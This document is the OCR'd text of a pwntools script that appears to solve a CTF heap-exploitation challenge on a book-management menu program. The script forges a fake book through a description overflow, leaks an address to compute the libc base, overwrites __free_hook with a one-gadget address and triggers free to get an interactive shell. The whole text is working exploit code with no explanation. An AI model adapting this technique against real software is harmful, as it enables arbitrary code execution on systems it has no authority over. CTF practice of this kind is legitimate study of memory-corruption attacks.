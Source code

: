 ```
log.info(io.recvuntil('description: '))
io.sendline('description2')

# Modify book1 to construct fake book
log.info(io.recvuntil('> '))					##4
io.sendline('3')
log.info(io.recvuntil('want to edit: '))
io.sendline('1')
log.info(io.recvuntil('book description: '))
io.sendline('A'*0xb0 + p64(1)+ p64(book2_addr) + p64(book2_addr) + p64(0xffff))

# Change book1 addr to point to fake book
log.info(io.recvuntil('> '))					##5
io.sendline('5')
log.info(io.recvuntil('Enter author name: '))
io.sendline('A'*32)

# leak mmap base addr
log.info(io.recvuntil('> '))					##6
io.sendline('4')
log.info(io.recvuntil('Name: '))
bk2_des_addr = u64(io.recvn(6).ljust(8,'\x00'))

libc_addr = bk2_des_addr - 0x58e010
free_hook_addr = libc_addr + 0x003c67a8
sh = libc_addr + 0x4526a

print hex(libc_addr)
print hex(free_hook_addr)
print(sh)

# Modify book1 to change description ptr of book2
log.info(io.recvuntil('> '))					##7
io.sendline('3')
log.info(io.recvuntil('want to edit: '))
io.sendline('1')
log.info(io.recvuntil('book description: '))
io.sendline(p64(free_hook_addr))

# Modify book2 to change description to sh addr
log.info(io.recvuntil('> '))					##8
io.sendline('3')
log.info(io.recvuntil('want to edit: '))
io.sendline('2')
log.info(io.recvuntil('book description: '))
io.sendline(p64(sh))
# free
log.info(io.recvuntil('> '))					##9
io.sendline('2')
log.info(io.recvuntil('to delete: '))
io.sendline('2')

io.interactive()


```

